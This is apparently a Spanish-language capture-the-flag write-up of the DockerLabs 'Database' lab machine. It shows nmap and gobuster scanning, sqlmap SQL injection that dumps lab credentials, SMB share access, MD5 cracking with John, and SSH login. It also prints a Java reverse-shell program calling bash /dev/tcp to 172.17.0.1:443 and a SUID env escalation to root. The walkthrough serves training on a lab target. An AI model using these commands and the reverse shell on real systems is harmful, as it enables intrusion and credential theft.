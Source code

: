 ```yaml
---
title: Database - DockerLabs
published: true
categories: DockerLabs
---
```

| OS    | Dificultad | Creator           |
| ----- | ---------- | ----------------- |
| Linux | Medio      | ElPinguinoDeMario |


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e7076c1e-dd91-4e53-b532-0f77b5246f6d)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Búsqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rápido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la versión del servicio abierto.
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rápido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH`, el puerto 80 `HTTP`, el puerto 445 y el puerto 139 `Samba`

## Enumeración Web
Si accedemos a la pagina web vemos lo siguiente 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/b474b1ae-014e-44d6-9d06-4de30813ce0a)


Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/701ae0f3-63b7-42c4-a604-4e2290e53d6f)


Gobuster ha encontrados dos directorios, el index.php y el config.php vamos a ver que encontramos.

No hay nada interesante, vamos a ver si es potencialmente vulnerable a un SQLi con la herramienta SQL Map-

## Ataque SQLi

Lo hacemos de la siguente forma:

`sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch`

Esto va hacer un escaneo de las bases de datos que encuentre.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c6bf06f8-c625-4e94-a840-03990be101a3)


`sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch`

Esto va ha ver que tablas se encuentran dentro de la base de datos register.


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e49efd33-0a97-466d-8d20-910717dc4d1a)


Ahora vamos a ver que hay dentro de la tabla users

`sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch`


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/02b8bd15-c9be-45fc-ab6f-daf9bc572782)


Encontramos dos columnas, la passwd y la username vamos a ver que hay dentro de cada una.

`sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch`

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/5ee4f0f6-6749-46d0-b290-6fe9f2202739)

Encontramos una contraseña y un usuario.

dylan:KJSDFG789FGSDF78

Si ahora accedemos al panel web con esas credenciales vemos lo siguiente

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/91b530ce-1055-4acb-87fa-5eb61510dd37)


Ahora si probamos el usuario y la contraseña para intentar acceder vía SSH vemos que no funciona


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e83f63f9-2ba1-4e93-84f9-211de65cf643)


## SMB

Vamos a ver si podemos listar directorios compartidos por SMB con la Herramienta SMB Map

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7eefb39e-c5ef-49dc-b4c4-6a48c87bf165)

Vemos que tenemos 1 carpeta llamada shared pero no tenemos acceso vamos a probar con la contraseña que hemos podido ver apartir del SQL injection.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/307fd865-1a42-4e08-8d6e-06c5d1903a4e)

El usuario dylan tiene permiso de escritura en el directorio shared, entonces con la herramienta smbclient vamos a conectarnos a esa carpeta a ver que hay en su interior.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fc4fd3c2-8297-4202-aeb3-497c72d9ea43)

Vemos un archivo para poderlo leer vamos a descargarlo con el parametro get y le hacemos un cat en nuestra maquina atacante..

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4c00bd9c-7520-4d27-994f-75325b2bf0a5)

Podríamos tener un posible usuario y una posible contraseña pero esta encriptada en MD5 vamos aplicar fuerza bruta con John para desencriptarla.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/cc6c8d98-4b75-45ed-b223-d7551f2d1a3b)

tenemos el usuario augustus con la contraseña lovely

## Intrusión

Vamos a validar estas credenciales por ssh

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/17c5ad07-9ad5-46a8-b113-b3c763ab4c6d)

Ya estamos dentro de la máquina, vamos a buscar alguna forma de escalar privilegios.


## Escalada de privilegios

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2b533274-e400-4e67-8f46-84fd4d9523fd)

Si hacemos un sudo -l vemos que podemos ejecutar el binario java como dylan y así poder escalar a su usuario.

Vamos a crear un script en java para que nos mande una reverse shell con el usuario dylan.

```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/443 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```


Ahora nos ponemos en escucha con netcat por el puerto 443 y ejecutamos el script de la siguiente forma 

`sudo -u dylan /usr/bin/java reverse.java`

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/57fd5d96-82cf-4206-8629-288bcc494793)

Ya somo el usuario dylan, vamos a ver ahora como podemos escalar.

Si buscamos permisos SUID vemos que tenemos el binario env

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/483a1d38-1c75-481c-b78d-27555354df07)

y para explotar esto lo podemos hacer de la siguiente forma 


`/usr/bin/env /bin/sh -p`


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7aca4d29-c71c-4178-b761-3a018b145d01)


Ya somos ROOT
